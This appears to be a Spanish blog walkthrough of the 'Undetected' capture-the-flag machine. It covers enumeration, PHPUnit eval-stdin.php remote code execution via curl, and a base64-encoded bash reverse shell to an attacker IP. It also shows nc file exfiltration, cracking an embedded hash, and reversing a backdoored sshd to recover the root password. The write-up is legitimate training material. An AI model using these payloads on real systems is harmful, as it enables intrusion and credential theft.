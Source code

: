 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Introduccion
Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos, su IP es `10.10.11.146`

![Scan 1](/assets/images/Undetected/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

![nmap 1](/assets/images/Undetected/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![nmap 2](/assets/images/Undetected/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos.

![nmap 3](/assets/images/Undetected/nmap3.png)

Despues veremos mas sobre los servicios que corren en el puerto 80 y 8000 con whatweb.

![whatweb](/assets/images/Undetected/whatweb.png)

Procedemos a enumerar dominios con gobuster

![whatweb](/assets/images/Undetected/gobuster.png)

```s
gobuster dir -u 10.10.11.146 -w /usr/share/wordlists/wfuzz/webservices/directory-list-2.3-medium.txt -t 200
```

En la pagina del puerto 80, vemos que hay un dominio que apunta a store.djewelry.htb y lo agregaremos a nuestro /etc/hosts.

Dentro no tiene nada interesante, sobre la informacion solamente nos informan que pronto migraran su servicio a otra pagina.

Procedemos a usar gobuster, esta vez con el dominio encontrado.

Dentro encontramos el directorio info y vendor, info es un archivo binario. Para descargarlo usaremos:

![Hash](/assets/images/Undetected/hash.png)

Y ademas dentro al analizarlo encontramos una linea codificada y para decodificarla usaremos:

```s
echo [Hash] | xxd -r -p
```

![Hash decoded](/assets/images/Undetected/echo_hash.png)

Antes de decodificarlo, vemos que el comando usado es un wget de un authorized_keys para el /root/.ssh/authorized_keys y agrega un hash dentro del archivo /etc/shadow.
Para decodificarlo usaremos jhon, con el comando:

```s
john hash2 -w=/usr/share/wordlists/rockyou.txt
```

![Password found](/assets/images/Undetected/password_founded.png)

Hemos encontrado una contrasena `ihatehackers`, pero no podemos usarla aun por que no conocemos aun ningun usuario.

Ahora revisaremos el archivo /vendor encontrado con gobuster.
Vemos demasiados archivos dentro de el directorio, nos metemos phpunit e investigamos sobre exploits para ese srvicio. 
En la busqueda de exploits, vemos que vendor/phpunit/php-code-coverage es vulnerable a RCE, esta vulnerabilidad no esta precisamente donde nos encontramos, pero sabemos que el servicio que lo usa tiene esa libreria dentro de su servicio de php. En <a href="https://gist.github.com/yassineaboukir/1501de6f60dce148824d3001e83fb263">GIT</a> encontraremos el exploit a este CVE. Lo usaremos de la siguiente manera:

```s
curl --data "<?php echo(pi());" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

Y probaremos ahora con:

```s
curl --data "<?php echo(shell_exec('whoami'));" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

![RCE](/assets/images/Undetected/rce.png)

Ahora podemos ir por la reverse shell, aunque primero la codificaremos en base64.

```s
echo "bash -i >& /dev/tcp/10.10.14.230/4444 0>&1" | base64
```

```s
curl --data "<?php echo(shell_exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMzAvNDQ0NCAwPiYxCg== | base64 -d | bash'));" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

![Reverse shell code](/assets/images/Undetected/reverse_shell1.png)

Y de nuestro lado nos ponemos en escucha por el puerto 4444 para recibir la conexion.

![Reverse success](/assets/images/Undetected/reverse1_success.png)

Una vez dentro, listaremos los usuarios con un:

```s
cat /etc/passwd | grep -i sh$
```

![/etc/passwd](/assets/images/Undetected/etc_passwd.png)

Ahora podemos intentar usar la contrasena que obtuvimos anteriormente, les adelanto que es para el usuario steven1, aunque si listamos el id, vemos que es aun asi steven jeje. Y ahora si navegamos a /home/steven/usr.txt podremos leer la flag.

Con Linpeas hemos encontrado un correo para steven. El mail nos dice que hay un extrano comportamiento para el servicio de Apache, asi que lo movieron temporalmente.

![Steven mail](/assets/images/Undetected/steven_mail.png)

Ahora nos moveremos para el directorio de Apache2 en /etc/apache2. Despues nos vamos para /usr/lib/apache2. Dentro hay un directorio llamado modules, y los listaremos por ultimo actualizado con:

```s
ls -ltrh
```

![sort by last updated](/assets/images/Undetected/ls_modules.png)

Hay un archivo llamado mod_reader.so, asi que lo mandaremos a nuestra maquina desde la maquina de steven con un:

Primero del lado que recibe, la maquina kali lo podemos descargar con un:

```s
nc -lp 9001 > mod_reader.so
```

Despues del lado que mandara el archivo ponemos un:

```s
nc -w 3 10.10.14.230 9001 < mod_reader.so 
```

Listo, ahora procederemos a leer el archivo, ya que dentro tambien tiene informacion valiosa como el anterior

```s
strings mod_reader.so
```

Con un strings lo leemos y encontramos de nuevo una cadena en base64, despues de decodificarla vemos que descarga una image.png y la guarda como sshd y dambien cambia la fecha asi que no podemos encontrarla con el filtrado de ultima modificacion.

Procedemos a descargar ese sshd.

Lo analizaremos con la herramienta hidra, que nos permite analizar malware; abrimos el programa, iniciamos un nuevo proyecto y arrastramos el archivo sshd, le daremos click derecho para abrir con la herramienta por default y despues que abra, le daremos que lo analice, por que si no no cargara las funciones que contenga el archivo.

Lo primero que se sugiere siempre es filtrar el resultado por password, para tener rapida la victoria en texto plano.
Y se encuentra una funcion llamada `auth_password`. Y dentro hay un arreglo que contiene un backdoor dentro que pesa 31 bytes. Y guardare esos datos en un archivo llamado decompile.c para que la syntax se ilumine bien.

![ghidra1](/assets/images/Undetected/hidra1.png)

![decompile.c](/assets/images/Undetected/decompile_c.png)

Tenemos un valor negativo `-0x5b` que vendria siendo el valor invalido, veamos con ghidra la representacion del caracter y nos muestra ques es un /0xa5.

![Ghidra](/assets/images/Undetected/ghidra2.png)

Ahora, usaremos Cyberchef para meter el swap endianess. Usaremos 31 bytes por que anteriormente vimos que el arreglo donde entra es de 31 bytes.

![cyberchef](/assets/images/Undetected/cyberchef.png)

Ahora lo convertiremos a hex. Tambien tenemos que hacer un xor y en la key le pondremos 96, por que podemos ver en el codigo anterior, que entra en un while loop xor con 0x96. Y hemos obtenido la contrasena de root.

![cyberchef 2](/assets/images/Undetected/cyberchef2.png)

Ahora si podemos establecer una shell con el usuario root y leer nuestra flag.

![cyberchef 2](/assets/images/Undetected/root_flag.png)

![cyberchef 2](/assets/images/Undetected/undetected_powned.png)